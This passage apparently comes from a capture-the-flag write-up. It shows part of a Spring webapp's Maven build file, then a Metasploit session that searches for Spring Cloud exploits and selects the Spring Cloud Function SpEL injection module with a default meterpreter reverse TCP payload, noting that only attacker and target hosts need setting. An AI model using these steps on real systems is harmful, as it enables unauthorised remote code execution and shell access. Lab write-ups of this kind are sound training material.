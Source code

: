 ```xml
                        <version>5.1.3</version>
                </dependency>
                <dependency>
                        <groupId>org.webjars</groupId>
                        <artifactId>webjars-locator-core</artifactId>
                </dependency>

        </dependencies>
        <build>
                <plugins>
                        <plugin>
                                <groupId>org.springframework.boot</groupId>
                                <artifactId>spring-boot-maven-plugin</artifactId>
                                <version>${parent.version}</version>
                        </plugin>
                </plugins>
                <finalName>spring-webapp</finalName>
        </build>

</project>
```

Here we can see the dependencies this webapp is built on. After exploring some potential vulnerabilities from the plugins listed, I eventually find a relevant exploit in spring boot cloud
Using metasploit module to exploit:
```bash
msf6 > search spring cloud

Matching Modules
================

   #  Name                                                     Disclosure Date  Rank       Check  Description
   -  ----                                                     ---------------  ----       -----  -----------
   0  auxiliary/scanner/http/springcloud_directory_traversal   2020-06-01       normal     No     Directory Traversal in Spring Cloud Config Server
   1  auxiliary/scanner/http/springcloud_traversal             2019-04-17       normal     No     Spring Cloud Config Server Directory Traversal
   2  exploit/multi/http/spring_cloud_function_spel_injection  2022-03-29       excellent  Yes    Spring Cloud Function SpEL Injection
   3  exploit/linux/http/spring_cloud_gateway_rce              2022-01-26       excellent  Yes    Spring Cloud Gateway Remote Code Execution

Interact with a module by name or index. For example info 3, use 3 or use exploit/linux/http/spring_cloud_gateway_rce

msf6 > use 2
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/spring_cloud_function_spel_injection) >
```
For this exploit we only need to set our attacker host as `LHOST` and the target host as `RHOST`. The default port, 8080, is conveniently the port used on this inject box.
